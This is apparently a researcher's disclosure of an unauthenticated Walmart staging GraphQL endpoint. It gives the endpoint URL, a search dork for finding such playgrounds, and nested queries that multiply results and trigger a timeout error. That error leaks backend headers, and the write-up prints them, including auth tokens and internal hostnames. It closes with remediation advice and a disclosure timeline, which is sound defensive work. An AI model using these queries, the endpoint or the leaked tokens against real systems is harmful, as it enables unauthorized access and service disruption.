

# Overview

GraphQL is an exciting technology that simplifies how developers load data from back-end services and thousands of organizations are realizing the simplicity and power GraphQL enables for new applications. If and when a security issue does occur, the simplicity and power of GraphQL helps attackers to gain control of significantly more confidential data far faster than ever before.

Walmart accidentally exposed a graphql endpoint from their staging environment to the public with no authentication, schema introspection enabled, and graphql playground enabled. This makes it trivial for an attacker to scrape the entire API surface area for issues.

A quick set of queries revealed that most of the information from this public graphql endpoint was information that would generally be publicly available which is a little less exciting. However, if you’re able to get the graphql gateway to produce an invalid request to an underlying system it dumps the entire request into the payload back to the requestor. This includes headers from the GraphQL Gateway to the backend microservice that handles the request. In Walmart’s case this included the names of the internal servers and services and the authorization and access tokens the GraphQL gateway was using to interact with those services.

Endpoint is here: https://developer.api.stg.walmart.com/api-proxy/service/Store-Services/Store-GraphQL-API/v1/graphql

# Locating this issue

This particular vulnerable server was found by searching google for a piece of text that only exists in GraphQL playgrounds.

Here's a screenshot of a server hosting the GraphQL Playground



More specifically, a simple google search for `"Hit the Play Button to get a response here"` revealed the exposed server.


# Note about GraphQL

The beauty of GraphQL is that you can easily bring in data related to an entity you are querying for. In this vulnerability we were able to write a query that the information about a store.

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
    }
  }
}

   
```

Once we confirmed we'd be able to run that query we were able to investigate the schema to explore additional query options:


```
    nearbyStores {
      
    }
```

It looks like we can find 25 nearby stores to the first store we queried. Then we can recursively call this

```
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
```

Each additional nested NearbyStores result multiples our result size by 25. So in this case we'll get 625 results, add two more nested calls and you'll get 390625 results.

# Details

Running this query will first cause a timeout, running it again shortly after the timeout will cause a different error which will dump the request headers from the GraphQL Gateway's call to the underlying REST service. These headers include plain text auth tokens for the backend service.


Sample Query:

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
    }
  }
}
}
```

Running this query several times causes the underlying service to timeout and then when the next request occurs it fails, dumping the full request with headers to the requester:

```
{
  "url": "http://store-front.stg-mt.store-finder.services.glb.prod.walmart.com:80/store-front/storefinder/stores?latitude=42.919756&longitude=-89.252756&nbrOfStores=11&distance=50&responseGroups=deptGroups%2CallServices%2Cevents&serviceTypes=ALL",
  "headers": {
    "access_token": "gsf51320fce430d45d2bdba0509908f775f",
    "client_id": "123",
    "language_code": "en",
    "wm_bu_id": "0",
    "wm_consumer.id": "fa0d07de-fb06-4790-bda2-73b283846c67",
    "wm_consumer.ip": "127.0.0.1",
    "wm_ifx.client_type": "INTERNAL",
    "wm_sec.auth_token": "ahhaCXP%^OST",
    "wm_svc.env": "prod",
    "wm_svc.name": "store-front",
    "wm_svc.version": "1.0.0",
    "wm_consumer.intimestamp": 1650386721185,
    "wm_qos.correlation_id": "123"
  }
}
```

# CWE-200: Exposure of Sensitive Information to an Unauthorized Actor

This is an example of not implementing authentication on a GraphQL endpoint.

The following actions would have prevented this issue from occuring: 
* If this GraphQL endpoint is not utilized by the user's browser to render content it should not be connected to the internet with a public IP but instead should only be accessible by necessary internal services
* GraphQL Authorization should be added at the gateway level
* Limit nested calls whenever possible.
* If there are underlying services involved, those services should validate the user's request token to ensure the user should see the required data
* Underlying services should not treat the graphql gateway as being in development mode and should use the same protections as production services
* Positive and Negative authorization-related integration and end to end tests would have caught the issue 
* Tools like https://github.com/zapier/apollo-server-integration-testing make it easier to automated integration tests that ensure the presence of an authorization token

# Disclosure

Apr 18th: Filed a responsible disclosure via Walmart’s website which ended up with Bugcrowd

Apr 19th: Walmart sends a message rejecting responsible disclosure as could not reproduce / false positive and closes ticket.

Apr 19th: I reached out to clarify and provide additional information. If Walmart is rejecting the report then I believe I am free to immediately disclose.

Apr 19th: Contact bugcrowd to see if anyone will be responding to my new comment on the closed ticket. Bugcrowd says it may be up to 2 weeks before I will get a response.

May 18th: Vendor is not accepting the issue as meeting criteria.

